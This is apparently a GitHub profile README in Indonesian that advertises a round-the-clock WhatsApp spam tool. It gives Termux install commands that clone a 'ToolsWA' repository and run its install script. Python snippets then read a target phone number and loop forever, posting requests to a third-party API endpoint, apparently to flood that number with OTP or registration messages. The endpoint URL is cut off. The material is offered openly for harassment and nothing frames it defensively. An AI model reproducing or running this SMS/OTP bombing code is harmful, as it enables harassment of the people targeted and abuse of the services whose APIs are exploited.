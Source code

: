 # Made By Mr. E-Cyber Team
Spam Brutal WhatsApp 24 jam non stop

<details open>
  <summary><strong> Install Package + Run Script </strong></summa>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/teamcyber-glitch/ToolsWA
  bash install.sh
  
  #sabar belum rilis, tahap penyempurnaan
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  import os,sys,time,requests,json
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

  <details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  import os,sys,time,requests,json
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/r>
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<

<!---
teamcyber-glitch/teamcyber-glitch is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

